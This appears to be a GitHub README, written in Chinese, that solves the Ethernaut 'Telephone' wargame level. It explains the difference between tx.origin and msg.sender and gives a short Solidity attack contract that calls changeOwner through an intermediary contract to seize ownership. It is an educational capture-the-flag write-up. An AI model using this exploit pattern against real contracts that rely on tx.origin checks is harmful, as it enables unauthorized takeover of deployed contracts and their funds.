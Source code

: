 <img width="1594" height="606" alt="image" src="https://github.com/user-attachments/assets/c8f47dff-6320-4732-891b-8e8254acb9b2" /># Ethernaut-Telephone
Ethernaut Telephone關卡的解法

****這主要是在解釋tx.origin跟msg.sender兩者之間的關係****
tx.origin：永遠是發起這筆交易的外部帳號 (EOA)，無論經過多少層合約呼叫都不變
msg.sender:則是當前這一層函式呼叫的直接呼叫者，A呼叫Ｂ，Ｂ呼叫Ｃ，那Ｂ的msg.sender就是Ａ，Ｃ的msg.sender就是Ｂ

解題思路：
如果要取得Owner，就必須使呼叫changeOwner()的人不能是自己(tx.origin)，所以先部署合約TelephoneAttack，並呼叫attack()，這樣一來呼叫的人就從自己變成部署的合約了，就能通過圖片的if邏輯獲取Owner。

⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {
    function attack(address telephone) external {
        ITelephone(telephone).changeOwner(msg.sender);
    }
}
<img width="1594" height="606" alt="image" src="https://github.com/user-attachments/assets/39812e78-2a5f-43ff-930f-3a401d226cdf" />


